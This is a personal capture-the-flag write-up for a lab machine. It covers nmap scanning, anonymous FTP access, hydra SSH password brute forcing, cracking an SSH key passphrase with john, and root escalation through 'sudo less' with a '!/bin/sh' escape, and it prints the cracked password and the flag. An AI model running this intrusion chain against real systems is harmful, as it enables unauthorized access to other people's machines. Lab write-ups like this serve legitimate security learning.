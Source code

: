 1. Recon
    - `nmap -sT -sC -sV -T5 -vv 10.10.246.192`

    ```bash
    port 21: anonymous login allowed | all in plain text
    port 22
    port 80: Supported Methods: GET POST OPTIONS HEAD
    ```

2. enumerate website directories(dirbuster)
    - `dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.246.192/`
    - no directories were found

3. access the ftp server as anonymous
    - username: anonymous
    - password: anonymous@domain.com

    ```bash
    possible users found: Amy, Jake, Holt
    jake's password is weak
    ```

4. Brute force jake's password with hydra
   - `hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.81.123 ssh -t 32`
   - `login: jake   password: 987654321`


5. Access jake's session with ssh
   - `ssh jake@<target-ip>`
   - found a priv ssh key in jake's session
   - I can only run /usr/bin/less from bin
   - cd /home/holt -> found flag in user.txt
   - found amy's private key in her .ssh folder with `less .ssh/id_rsa` (guessed the name of the priv key)

6. Accessing Amy's ssh session
   - amy's ssh key has a passphrase
   - `john2ssh amy-key > amy.hash`
   - `john amy.hash --wordlist=/usr/share/wordlists/rockyou.txt`
   - her passphrase is jake1
   - brute force her password with hydra
      ```sh
      eval "$(ssh-agent -s)"
      ssh-add /path/to/amy-key
      type her password in the prompt
      ```
    - bruteforce was unsuccessful


6. enumerate target with linpeas
   - inside the local machine `scp linpeas.sh jake@<target-ip>:/dev/shm
   - chmod +x /dev/shm/linpeas.sh
   - ./linpeas
   - couldn't find anything useful



7. Had to check the walkthrough
   - by doing the command `sudo less /etc/profile` which i have permissions to execute, i can execute a simple shell command to gain root access
   - `!/bin/sh`
   - ref: https://gtfobins.github.io/gtfobins/less/
   - and just like that, i got root and the root flag: 63a9f0ea7bb98050796b649e85481845







   
